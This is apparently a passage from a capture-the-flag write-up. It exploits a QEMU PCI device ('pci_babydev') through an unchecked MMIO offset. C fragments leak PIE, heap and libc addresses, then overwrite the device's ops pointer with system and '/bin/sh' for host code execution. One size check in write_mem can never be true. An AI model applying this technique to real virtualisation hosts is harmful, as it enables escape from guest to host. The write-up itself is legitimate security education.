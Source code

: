 ## 0x02 Exploit

### Leak Pie, Heap and Libc

---

```c
int64_t read_mem(void *mem, int64_t offset){
    int64_t data;

    *(uint64_t *)((void*)mem + MMIO_SET_OFFSET) = offset;
    data = *(uint32_t *)((void*)mem + MMIO_GET_DATA);

    *(uint64_t *)((void *)mem + MMIO_SET_OFFSET) = offset + 4;
    data += (uint64_t)*(uint32_t *)((void*)mem + MMIO_GET_DATA) << 0x20;

    return data;
}

// [...]

uint64_t ms = read_mem(mem, 0x158);
uint64_t pb = read_mem(mem, -0xc8) - 0xd1d100;

uint64_t ms_buffer = ms + 0xBF8;
uint64_t ops_addr = ms + 0xb30;

uint64_t lb = read_mem(mem, (ms+8) - ms_buffer) - 0x5ad6f0;
```
<br>

In `pci_babydev_mmio_write`, when setting `reg->offset`, there is no validation, and since it is of type `int64_t`, the offset can be calculated from the `ms_buffer` to read the value of the desired memory.
As a result, it is possible to leak memory addresses such as those of the `PIE`, `heap`, and `libc`.
<br>

```c
void write_mem(void *mem, int64_t offset, uint64_t data, int size){
    if (size == 4 && size == 8){
        return;
    }

    *(uint64_t *)((void *)mem + MMIO_SET_OFFSET) = offset;
    *(uint64_t *)((void *)mem + MMIO_SET_DATA) = data & ((1 << 0x20) - 1);

    if(size == 8){
        *(uint64_t *)((void *)mem + MMIO_SET_OFFSET) = offset + 0x4;
        *(uint64_t *)((void *)mem + MMIO_SET_DATA) = data >> 0x20;
    }
}

	// [...]

	write_mem(mem, 0x0, system, 8);
	write_mem(mem, 0x8, mmio_write, 8);
	write_mem(mem, 0x10, *(uint64_t*)binsh, 8);
	write_mem(mem, ops_addr - ms_buffer, ms_buffer, 8);
	write_mem(mem, (ops_addr+8) - ms_buffer, ms_buffer+0x10, 4);

	// [...]
```
<br>
